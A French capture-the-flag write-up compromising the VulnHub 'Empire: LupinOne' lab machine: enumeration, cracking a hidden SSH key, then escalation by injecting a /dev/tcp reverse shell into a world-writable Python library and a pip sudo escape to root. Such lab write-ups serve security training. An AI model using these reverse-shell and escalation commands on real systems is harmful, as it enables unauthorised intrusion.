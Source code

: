 ```yaml
---
title: "CTF Empire: LupinOne"
date: 2021-11-07
tags: ["Pentest", "CTF"]
download: https://www.vulnhub.com/entry/empire-lupinone,750
---
```


## Avant propos

Le déroulé de ce hack a été réalisé sur une machine prévue à cette effet. Il est interdit de mener ce genre d'action sur une machine qui ne vous appartient pas sans l'accord de son ou sa propriétaire.  
Ce CTF a été réalisé avec une machine attaquante **Kali 2021.3** (`lsb_release -r`).

## Enumération

On récupère l'adresse IP de la machine distante avec **Netdiscover** `sudo netdiscover`.  
Avant de poursuivre, on exporte cette adresse dans une variable pour être tranquille par la suite `export IP=192.168.1.38`.  
Puis on créé un dossier dédié à ce CTF `cd Documents/ctf && mkdir EmpireLupinOne && cd EmpireLupinOne`.  
On lance **Nmap** pour scanner les ports de la machine distante.

```bash
$ nmap -sV -sT -p- $IP -oN nmap.txt
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.48 ((Debian))
```

On a un serveur **SSH** sur le port **22** et un serveur **Apache** 2.4.48 sur le port **80**.  
Dans le fichier "robots.txt", on trouve un indice.

```txt
User-agent: *
Disallow: /~myfiles
```

On va utiliser l'outil **Ffuf** au lieu de **Wfuzz** pour découvrir le ou les pages présentes à la racine du serveur Apache par mot clef.

Remarque: **Ffuf** n'est pas installé par défaut sur [Kali Linux](https://www.kali.org/tools/ffuf). Il faut lancer la commande d'installation `sudo apt install ffuf`.

```bash
$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 'http://192.168.1.38/~FUZZ'
secret
```

On a une page "~secret" et un utilisateur potentiel "icex64".

```bash
curl http://$IP/~secret/ 
<br>Hello Friend, Im happy that you found my secret diretory, I created like this to share with you my create ssh private key file,</> 
<br>Its hided somewhere here, so that hackers dont find it and crack my passphrase with fasttrack.</> 
<br>I'm smart I know that.</>
<br>Any problem let me know</>
<h4>Your best friend icex64</>
```

En partant du principe que c'est un répertoire secret, on cherche un fichier texte préfixé par un point.

```bash
$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 'http://192.168.1.38/~secret/.FUZZ' -e .txt -fc 403
mysecret.txt
```

Le contenu de ce fichier contient une chaine de caractères qui se révèle être du [Base58](https://www.dcode.fr/identification-chiffrement) que l'on peut déchiffrer sur le même site [Dcode.fr](https://www.dcode.fr/chiffre-base-58).

On a une clef SSH qui commence par `-----BEGIN OPENSSH PRIVATE KEY-----` et se termine par `-----END OPENSSH PRIVATE KEY-----` que l'on copie dans une nouveau fichier "id_rsa.pem" dont on change le chmod `chmod 600 id_rsa.pem`.

Avec **ssh2john**, on copie le hash dans un nouveau fichier `/usr/share/john/ssh2john.py id_rsa.pem > hash` afin de trouver le mot de passe avec **John the Ripper**.

```bash
$ john hash --wordlist=/usr/share/wordlists/fasttrack.txt
P@55w0rd!
```

## Pénétration

On a l'utilisateur, la clef SSH et le mot de passe.

```bash
$ ssh icex64@$IP -i id_rsa.pem
password: P@55w0rd!
```

Dans le répertoire de l'utilisateur, on trouve le premier flag.

```bash
$ cat user.txt
3mp!r3{I_See_That_You_Manage_To_Get_My_Bunny}
```

## Escalation

Ensuite, on regarde les privilèges de l'utilisateur courant.

```bash
$ sudo -l
User icex64 may run the following commands on LupinOne:
    (arsene) NOPASSWD: /usr/bin/python3.9 /home/arsene/heist.py
```

On peut exécuter ce script Python avec l'utilisateur "arsene".

```bash
$ cat /home/arsene/heist.py 
import webbrowser

print ("Its not yet ready to get in action")

webbrowser.open("https://empirecybersecurity.co.mz")
```

Le script ne contient quasiment rien, si ce n'est la librairie "webbrowser". Sur le [Github](https://github.com/python/cpython/blob/3.10/Lib/webbrowser.py) de cette librarie, on voit que la librairie "Os" est utilisée. On va donc modifier cette dernière (on n'a pas les droit d'écriture sur le script final) afin d'exécuter un webshell.

```bash
$ find / -name webbrowser.py
/usr/lib/python3.9/webbrowser.py
-rwxrwxrwx 1 root root 24087 Oct  4 18:45 /usr/lib/python3.9/webbrowser.py
$ nano /usr/lib/python3.9/webbrowser.py
os.system("/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.1.33/1234 0>&1'")
```

Dans un autre onglet du terminal, on démarre le serveur **Netcat** sur le port "1234".

```bash
$ nc -lnvp 1234
listening on [any] 1234 ...
```

Puis on exécute le script Python `sudo -u arsene python3.9 /home/arsene/heist.py` et la connexion est effective avec l'utilisateur "arsene".

```bash
$ sudo -l
User arsene may run the following commands on LupinOne:
    (root) NOPASSWD: /usr/bin/pip
```

L'utilisateur a le droit d'éxécuter le gestionnaire de paquets de Python, **PIP**.

Avant tout, il faut se mettre en Shell `python3 -c 'import pty; pty.spawn("/bin/sh")'` pour pouvoir effectuer les commandes recommandées par [GTFOBins](https://gtfobins.github.io/gtfobins/pip/#sudo)

```bash
$ TF=$(mktemp -d)
$ echo "import os; os.execl('/bin/bash', 'bash', '-c', 'bash <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
$ sudo pip install $TF
$ id
uid=0(root) gid=0(root) groups=0(root)
```

On est bien en root et on trouve le dernier flag.

```bash
$ cat /root/root.txt
3mp!r3{congratulations_you_manage_to_pwn_the_lupin1_box}
```
